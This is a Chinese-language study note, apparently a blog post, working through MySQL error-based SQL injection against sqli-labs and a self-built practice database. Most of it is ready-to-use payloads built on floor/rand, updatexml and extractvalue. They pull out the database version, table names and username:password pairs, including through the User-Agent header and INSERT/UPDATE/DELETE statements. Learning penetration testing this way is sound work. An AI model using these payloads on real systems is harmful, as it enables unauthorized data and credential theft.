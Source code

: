 # 06-mysql类型报错注入

  

# 1. SQL各种参数类型下的注入测试

- 数字型-sqlilabs less2   `x.php?id=1`
- 字符型-sqlilabs less1   `x.php?id=xiaodi`
- 搜索型-自写测试           `x.php?q=1`      （select * from table where name like '%xi%'）

**搞懂：**

1. 搞清楚为何要区分上面的类型
   数字的不带引号，字符型带符号，注意考虑干扰
   搜索型：模糊搜索
   计算机中搜索的通配符为`*`
   数据库中搜索的通配符为`%`






# 2. SQL各种报错方式下的注入测试

>此类报错注入旨在解决无回显下的注入测试
>注：MySQL 5.1.5版本后才包含`ExtractValue()`和`UpdateXML()`这2个函数

**参考资料：**
https://www.wandouip.com/t5i158282/
http://blog.sina.com.cn/s/blog_1450cc4c60102vraq.html


###### `floor`报错

sqlilabs less5

>报错注入有长度限制，所以concat有时候不行， 需要limit 或者还需要sub
>**payload:**

```
-- burp中注意空格问题（空格可以用+加号， 或者%20, 或者 /**/ 代替）
?id=1'+and+(select+1+from (select+count(*),concat(version(),floor(rand(0)*2))x+from+information_schema.tables+group+by+x)a)--+
?id=-1' and(select 1 from (select count(*),concat((select table_name from information_schema.tables limit 3,1),floor(rand(0)*2))x from information_schema.tables group by x)a)-- + 

?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 2,1),0x7e,floor(rand(0)*2)))-- + 

http://192.168.0.121:8080/Less-5/?id=1%27 and (select count(*) from information_schema.tables group by concat(version(), floor(rand(0)*2))) -- + 

-- 可以用burp批量跑 limit 0,1 的0这里。payload设置数字范围
```

###### `updatexml`报错

sqlilabs less5
updatexml()函数是MYSQL对XML文档数据进行查询和修改的XPATH函数
**payload:**

```
?id=1' and 1=(updatexml(1,concat(0x3a,(select version())),1))--+
?id=1' and 1=(updatexml(1,concat(0x3a,(select table_name from information_schema.tables limit 0,1)),1))--+

http://192.168.0.121:8080/Less-5/?id=1%27 and updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e), 1) -- + 

http://192.168.0.121:8080/Less-5/?id=1%27 and updatexml(1, concat(0x7e, (select concat_ws(0x3a, username,password) from security.users limit 0,1),0x7e), 1) -- + 
```

###### `extractvalue`报错

sqlilabs less5
extractvalue()函数也是MYSQL对XML文档数据进行查询和修改的XPATH函数
**payload:**

```
id=1' and extractvalue(1,concat(0x7e,user()))--+
?id=1' and extractvalue(1, concat(0x5c,(select table_name from information_schema.tables limit 1)))--+

```





# 3.SQL各种查询方式下的注入测试

- select
- insert（注册，用户添加，发布文章）   Less-18

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
-- sql语句  ??? 对吗没验证，截图了
insert into users(username, passwd)  values('x' or updatexml(1,concat(0x3a,(  version() ),1)  or  '  ',  'psd');

--payload
User-Agent: 中                    x' or updatexml(1,concat(0x7e,(version())),1) or ' 

User-Agent: x' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables limit 0,1)),1) or ' 

自己练习增,删,改： updatexml和extra两个都实验
```

- delete（后台删除文章, 用户...）
- update （改密码，数据同步）
  通过以上查询方式与网站一个用的关系，可以由注入点产生的地方或者应用猜测到对方的SQL查询方式


**环境搭建**

> 自己搭建

利用上述报错注入语句进行查询模式注入测试

```
create database newdb;

use newdb;

create table users (
    id int(3) not null auto_increment,
    username varchar(20) not null,
    passowrd varchar(20) not null,
    primary key(id)
);

insert into users values(1,'janes','Eyre');


```

> 注意使用场景，在什么情况下用到  


**插件：**
`mysql监控-Seay代码审计系统`        查看执行了哪些语句



>报错注入有长度限制:32位, 如果长度超出会显示不全.
>解决方案: substr((),1,1) 递进截取依次 (select substr(concat(username,0x3a,password), 1,10) from users limit 0,1)



###### 三种查询方式对应的报错注入测试

**floor报错演示Payload**

```sql
insert into users(id,username,passowrd) values(1,'Olivia' or (select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x;
) or '','Nervo');

update users set passowrd='Nicky' or (select 1 from(select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a) or '' where id=2;

delete from users where id=1 or (select 1 from(select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a)

```

**updatexml报错演示Payload**

```
insert into users(id,username,passowrd) values(2,'Olivia' or updatexml(1,concat(0x7e,(version())),0) or '','Nervo');

update user set passowrd='Nicky' or  updatexml(1,concat(0x7e,(version())),0) or '' where id=2 and username='Nervo';

delete from users where id=2 or updatexml(1,concat(0x7e,(version())),0) or '';

```

**extractvalue报错演示Payload**

```sql
insert into users(id,username,password) values(2,'Olivia' or extractvalue(1,concat(0x7e,database())) or '','Nervo');

update users set passowrd='Nicky' or extractvalue(1,concat(0x7e,database())) or '';

delete from users where id=1 or extractvalue(1,concat(0x7e,database())) or '';

```

>参考：https://www.cnblogs.com/babers/articles/7252401.html

**Notes:**

>delete，insert，update语句存在sql注入，扫描工具常规扫描不能获取到（没有权限，前提要登录状态下/登录后按钮的点击事件工具里面不能自动点击）， 所以：**只能手工注入**

**比如场景：**   注册/会员中心/删除文章/更新编辑文章       -->抓包：数据包地址+id参数 ： 手工测试

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/06-mysql%E7%B1%BB%E5%9E%8B%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5/  

